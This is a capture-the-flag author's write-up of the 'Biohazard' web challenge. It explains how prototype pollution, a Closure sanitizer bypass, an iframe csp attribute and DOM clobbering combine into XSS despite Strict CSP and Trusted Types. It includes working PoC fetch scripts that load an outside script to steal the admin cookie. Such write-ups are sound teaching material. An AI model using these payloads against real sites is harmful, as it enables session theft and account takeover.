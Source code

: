 # Biohazard

## Objective

Find XSS in the Bio+ site, and use it to steal the admin cookie (i.e. flag).

## Purpose of the challenge

Given [Strict CSP](https://www.w3.org/TR/CSP3/#strict-csp) and [Trusted Types](https://www.w3.org/TR/trusted-types/) enforcement, I wanted to make a challenge which is still be vulnerable to XSS.
To mimic commonly used setup at Google, I've used [Closure Library](https://github.com/google/closure-library) and [safevalues](https://github.com/google/safevalues) which are both open sourced.
I've introduced a few vulnerabilities such as [Prototype Pollution](https://portswigger.net/web-security/prototype-pollution) and HTML injection. And I've also exposed several exploitation/bypass primitives such as [DOM clobbering](https://portswigger.net/web-security/dom-based/dom-clobbering) (through HTML injection) and [use of template](https://github.com/shhnjk/shhnjk.github.io/blob/main/thoughts/digesting-the-concept-of-trusted-types.md#template-gadget).
The hope was to maximize the potential of unintended solutions, so that all of us can learn something out of this challenge.

## Intended solution

### Prototype Pollution

`Object.assign` is usually not vulnerable to Prototype Pollution, such as the following.

```
Object.assign({}, JSON.parse('{"__proto__":{"polluted": true}}'));
console.log(Object.prototype.polluted); // undefined
```

However, it is vulnerable when `Object.prototype` is passed in the first argument.

```
Object.assign(({})['__proto__'], JSON.parse('{"polluted": true}'));
console.log(Object.prototype.polluted); // true
```

And `main.js` has the same vulnerability.

```
interestObj = {"favorites":{}};
const uuid = viewPath[1];
const xhr = new XMLHttpRequest();
xhr.addEventListener("load", () => {
  if (xhr.status === 200) {
    const json = JSON.parse(xhr.response);
    for (const key of Object.keys(json)) {
      if (interestObj[key] === undefined) {
        interestObj[key] = json[key];
      } else{
        Object.assign(interestObj[key], json[key]);
      }
    }
  } else {
    alert(xhr.response);
    location.href = '/';
  }
});
xhr.open('GET', `/bio/${uuid}`, false);
xhr.send();
```

Therefore, if you send a JSON request which contains `__proto__` key to the `/create` endpoint, you can cause Prototype Pollution in the bio page.

```
fetch('/create', {
  method:'POST',
  headers: {
    "Content-Type": "application/json",
  },
  body: `{"name":"test","introduction":"","favorites":{"hobbies":"","sports":""}, "__proto__": {"polluted": true}}`
});
```

### Closure sanitizer bypass

To render user supplied HTML in bio introduction, the challenge uses [Closure sanitizer](https://google.github.io/closure-library/api/goog.html.sanitizer.HtmlSanitizer.html). And because [Closure sanitizer can be bypassed with Prototype Pollution](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/#:~:text=my%20challenge.-,Closure,-Closure%20Sanitizer%20has), now you can inject arbitrary attributes in the bio HTML.

However, this does not lead to XSS, as the bio page has Strict CSP and Trusted Types enforced.

### Reviving XSS Auditor primitive

Now that we have Prototype Pollution and HTML injection (with arbitrary attribute control) in hand, what should we do?

In `bootstrap.js`, the `editor` variable looks suspicious.

```
if (!location.pathname.startsWith('/view/')) {
  ...
  editor = (x=>x)`/static/editor.js`;
}
```

This `editor` variable is used in `main.js` to include additional script.

```
import {safeScriptEl} from 'safevalues/dom';

...
function loadEditorResources() {
  ...
  const script = document.createElement('script');
  safeScriptEl.setSrc(script, trustedResourceUrl(editor));
  document.body.appendChild(script);
}

window.addEventListener('DOMContentLoaded', () => {
  render();
  if (!location.pathname.startsWith('/view/')) {
    loadEditorResources();
  }
});
```

If we can overwrite the `editor` attribute, we can trigger an XSS!

If you take a look at the Closure sanitizer config, you will notice that `<iframe>` is specifically allowed.

```
var Const = goog.string.Const;
var unsafe = goog.html.sanitizer.unsafe;
var builder = new goog.html.sanitizer.HtmlSanitizer.Builder();
builder = unsafe.alsoAllowTags(
    Const.from('IFRAME is required for Youtube embed'), builder, ['IFRAME']);
sanitizer = unsafe.alsoAllowAttributes(
    Const.from('iframe#src is required for Youtube embed'), builder,
    [
      {
      tagName: 'iframe',
      attributeName: 'src',
      policy: (s) => s.startsWith('https://') ? s : '',
      }
    ]).build();
```

You can use the `csp` attribute in iframe to block certain resources inside iframe (using CSP), if the page inside iframe is same-origin as parent (similar to the [XSS Auditor](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-XSS-Protection#:~:text=This%20code%20is,unsafe%20debug%20code.) primitive). Therefore, you can block `bootstrap.js` from loading.

```
<iframe src="https://biohazard-web.2023.ctfcompetition.com/view/[bio_id]" csp="script-src https://biohazard-web.2023.ctfcompetition.com/static/closure-library/ https://biohazard-web.2023.ctfcompetition.com/static/sanitizer.js https://biohazard-web.2023.ctfcompetition.com/static/main.js 'unsafe-inline' 'unsafe-eval'"></iframe>
```

### Defining `editor`

Since the `editor` variable is undefined inside the iframe, we just need to define it. There are 2 ways of doing this.

1. Use HTML injection to define `editor` using DOM clobbering.
2. Use Prototype Pollution to define `editor`.

Note that since the `editor` script will be only loaded outside of `/view/` path, the iframe has to point to something else, such as `/views/view/`. This is possible because the challenge is an SPA and always configured to load the main page no matter what the URL is.

Here are the PoCs for creating XSS bio, by running script in the challenge page.

DOM clobbering:

```
// https://biohazard-web.2023.ctfcompetition.com
const challengeOrigin = window.origin;
const cookieExfilScript = 'https://attack.shhnjk.com/alert.js';

const firstResponse = await fetch('/create', {
  method:'POST',
  headers: {
    "Content-Type": "application/json",
  },
  body: `{"name":"test","introduction":"<a id=editor href=${cookieExfilScript}></a><a id=editor></a>","favorites":{"hobbies":"","sports":""}, "__proto__": {"* ID": true}}`
});
const firstBio = await firstResponse.json();

const secondResponse = await fetch('/create', {
  method:'POST',
  headers: {
    "Content-Type": "application/json",
  },
  body: `{"name":"test","introduction":"<iframe src=\\"${challengeOrigin}/views/view/${firstBio.id}\\" csp=\\"script-src ${cookieExfilScript} ${challengeOrigin}/static/closure-library/ ${challengeOrigin}/static/sanitizer.js ${challengeOrigin}/static/main.js 'unsafe-inline' 'unsafe-eval'\\"></iframe>","favorites":{"hobbies":"","sports":""}, "__proto__": {"* CSP": true}}`
});
const secondBio = await secondResponse.json();

location.href = `/view/${secondBio.id}`;
```

Prototype Pollution:

```
// https://biohazard-web.2023.ctfcompetition.com
const challengeOrigin = window.origin;
const cookieExfilScript = 'https://attack.shhnjk.com/alert.js';

const firstResponse = await fetch('/create', {
  method:'POST',
  headers: {
    "Content-Type": "application/json",
  },
  body: `{"name":"test","introduction":"","favorites":{"hobbies":"","sports":""}, "__proto__": {"editor": ["${cookieExfilScript}"]}}`
});
const firstBio = await firstResponse.json();

const secondResponse = await fetch('/create', {
  method:'POST',
  headers: {
    "Content-Type": "application/json",
  },
  body: `{"name":"test","introduction":"<iframe src=\\"${challengeOrigin}/views/view/${firstBio.id}\\" csp=\\"script-src ${cookieExfilScript} ${challengeOrigin}/static/closure-library/ ${challengeOrigin}/static/sanitizer.js ${challengeOrigin}/static/main.js 'unsafe-inline' 'unsafe-eval'\\"></iframe>","favorites":{"hobbies":"","sports":""}, "__proto__": {"* CSP": true}}`
});
const secondBio = await secondResponse.json();

location.href=`/view/${secondBio.id}`;
```

Hope you enjoyed it!
